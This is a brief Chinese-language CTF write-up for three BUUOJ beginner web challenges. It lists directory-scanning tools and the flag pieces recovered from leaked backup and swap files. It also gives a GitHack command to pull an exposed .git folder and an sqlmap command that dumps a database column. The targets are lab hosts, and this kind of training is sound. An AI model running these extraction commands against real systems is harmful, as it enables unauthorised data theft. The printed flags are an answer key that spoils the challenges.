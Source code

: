 # [第一章 web入门]常见的搜集
试了好些类似 dirsearch 的工具，都不好用，最后还是看的答案
- [dirsearch](https://github.com/maurosoria/dirsearch)：扫描网站目录
- [feroxbuster](https://github.com/epi052/feroxbuster)：扫描网站目录
- [ffuf](https://github.com/ffuf/ffuf)：扫描网站目录
- [gobuster](https://github.com/OJ/gobuster/releases/tag/v3.6.0)：扫描网站目录
- [common.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt): 常见目录文件名
反正最后就是要查出来几个文件
```
robots.txt -> flag1:n1book{info_1
index.php~ -> flag2:s_v3ry_im
.index.php.swp -> flag3:p0rtant_hack}

n1book{info_1s_v3ry_imp0rtant_hack}
```

# [第一章 web入门]粗心的小李
使用 GitHack 下载 .git 文件夹
```sh
'C:\Python27\python.exe' .\GitHack.py -u http://bd8453b7-fcb1-4725-8962-3bb1cb3dcef9.node5.buuoj.cn:81/.git
cd .\dist\bd8453b7-fcb1-4725-8962-3bb1cb3dcef9.node5.buuoj.cn_81\
git log
git show 213b7e386e9b0b406d91fae58bf8be11a58c3f88
```

# [第一章 web入门]SQL注入-1
使用 sqlmap
```sh
python .\sqlmap.py -u http://54313594-3a8c-4a9f-afdf-1c4c3a6d32a9.node5.buuoj.cn:81/index.php?id=1 --threads 10 -D note -T fl4g -C fllllag --dump
```

